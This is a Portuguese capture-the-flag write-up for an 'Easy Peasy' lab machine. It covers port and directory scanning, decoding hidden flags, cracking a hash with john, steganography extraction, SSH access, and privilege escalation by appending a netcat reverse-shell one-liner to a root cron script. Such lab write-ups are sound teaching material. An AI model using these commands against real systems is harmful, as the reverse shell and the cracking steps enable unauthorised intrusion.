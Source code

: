 # Easy_Peasy

* ### Scan de portas - Verificando quais portas estão abertas.
```bash
rustscan -a 10.10.54.248
```
![image](https://github.com/lufffe/Writeups/assets/90646635/c16ab2e8-ba8b-4f5e-8fba-3690df24a356)

![image](https://github.com/lufffe/Writeups/assets/90646635/680344db-197b-45c1-87d2-9e6d5171c2bc)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 80,6498,65524 10.10.54.248
```
![image](https://github.com/lufffe/Writeups/assets/90646635/219c29de-66af-44fb-aff5-a2c9d007a587)

* ### Scan de Pastas e arquivos na raiz.
```bash
gobuster dir -u http://10.10.54.248:80 -w directory-list-2.3-small.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/8981dd55-0bae-4e1d-bfd5-4be827e571e7)

* ### Scan de Pastas e arquivos na pasta encontrada.
```bash
gobuster dir -u http://10.10.54.248:80/hidden -w directory-list-2.3-small.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/8aec38ec-473e-440c-89f4-077637c43a16)

* ### Encontrado uma frase codificada em base64 se decodificar encontrará a primeira flag.
![image](https://github.com/lufffe/Writeups/assets/90646635/413ad89b-7427-4595-a7a6-b59656239a12)

* ### No Robots da porta 65524, no arquivo robots.txt encontramos um usuário e um hash, se decodificar em md5 você encontrará a segunda flag.
![image](https://github.com/lufffe/Writeups/assets/90646635/25a48bc4-33c1-47a6-8f10-db1d1d2401ae)

* ### No Codigo da pagina você encontrará a terceira flag, .
![image](https://github.com/lufffe/Writeups/assets/90646635/a1e9034e-a666-4d51-a73b-b8048ed0b950)

* ### Na mesma página da flag, algo encodado em base62 .
![image](https://github.com/lufffe/Writeups/assets/90646635/91b7fc16-eaab-4256-abac-b8401bc1831f)

* ### Na mesma página da flag, algo encodado em base62 .
![image](https://github.com/lufffe/Writeups/assets/90646635/aceedb69-21b3-4b7d-9789-46af5a887c10)

* ### Resposta de uma das perguntas, vamos ver onde utulizar ela.
```bash
john hash --wordlist=easypeasy.txt --format=GOST
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f15e3e60-e0aa-4b9c-9e5f-20b413d12d5a)

* ### Baixando a imagem para verificar se tem algo nela.
```bash
wget http://10.10.237.140:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
```

* ### Extraindo informações da imagem, e encontramos onde usar a senha que achamos.
```bash
steghide extract -sf binarycodepixabay.jpg
```
![image](https://github.com/lufffe/Writeups/assets/90646635/e9f4de53-f01a-4766-8f58-e59df0f292fb)

* ### Arquivo extraido.
![image](https://github.com/lufffe/Writeups/assets/90646635/4dd82a5b-e104-4dee-aad5-9da1ab881dcf)

* ### Conversão Binario para texto.
![image](https://github.com/lufffe/Writeups/assets/90646635/bb2f312e-c45a-422d-aa6c-1986d7719df7)

* ### Como achamos o usuário e a senha, vmaos fazer o acesso via SSH.
```bash
ssh boring@10.10.237.140 -p 6498
```
![image](https://github.com/lufffe/Writeups/assets/90646635/15889acd-077d-4985-a99b-743ee5de478f)

* ### Mais um decode agora em Rot13, essa é a flag Usuário.
![image](https://github.com/lufffe/Writeups/assets/90646635/85020c63-427d-4d1c-83bb-184f973186ed)

* ### Verificando como escalar previlégio.
```bash
cat /etc/crontab
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f6aaceab-c50d-4877-ade0-5a975dcac875)

* ### Conferindo o arquivo que estava no cron.
```bash
cat /var/www/.mysecretcronjob.sh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/75d5d628-3448-4c1b-883c-6bf89d6a495e)


* ### Colocando uma reverse Shell no arquivo que o cron executa automaticamente e coloca o netcat para ouvir essa porta.
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4445 >/tmp/f" >> .mysecretcronjob.sh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f790d30d-2521-4e17-809a-c2a3043fcc07)

* ### Flag Root.
```bash
cat .root.txt
```
